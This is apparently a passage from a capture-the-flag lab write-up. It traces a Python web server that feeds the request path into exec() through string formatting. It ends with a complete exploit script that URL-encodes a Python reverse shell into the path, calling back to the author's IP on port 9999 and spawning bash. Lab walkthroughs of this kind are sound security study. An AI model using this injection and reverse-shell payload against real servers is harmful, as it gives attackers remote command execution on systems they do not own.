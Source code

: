 ```py
            mime = "text/html"
            with open(errorPage, "r") as f:
                data = f.read()
            status = "500"
        return {"body": data, "mime": mime, "status": status}

```

And hey, there is an 'exec' statement which seems to work with user input, lucky us.

```
exec(info.format(path)) # This is how you do string formatting, right?
```

Definietly the right way to format strings. Let's get there, when we send a request to the Server the first function we pass is listenToClient() which receives our request and then parses it into the "Request"-Class. In "ParseRequest" I saw that the first line of my request would get split into 3 parts separated by spaces. Which makes sense if we think about a normal request that would start like this

```
GET / HTTP/1.1
```
method would be equal to 'GET', doc would be equal to '/' and vers would be equal to 'HTTP/1.1'. Now when I followed the request further I could see that the doc part of our requests lands in the exec statement.
To test this out I modiefied the code with a bunch of print statements and added the following to run the server locally

```py
if __name__ == "__main__":
    Server = Server(127.0.0.1, 5000)
    Server.listen()
```


So since exec() executes python code, instead of requesting some normal url-endpoint we put our python code there to spawn a reverse shell. After messing around with the formating a bit I came up with the following exploit script, which is just your typical python reverse shell (from pentestmonkey.net), connecting to my ip at port 9999, with some extra formating which we had to do because our code was still insdie the info.format():


```py
import requests
import urllib

url = 'http://10.10.10.168:8080/'

path = '5\'' + '\nimport socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.77",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")\na=\''

path_encoded = urllib.parse.quote(path)

print("sending request to: " + url + path_encoded)
r = requests.get(url+path_encoded)
```
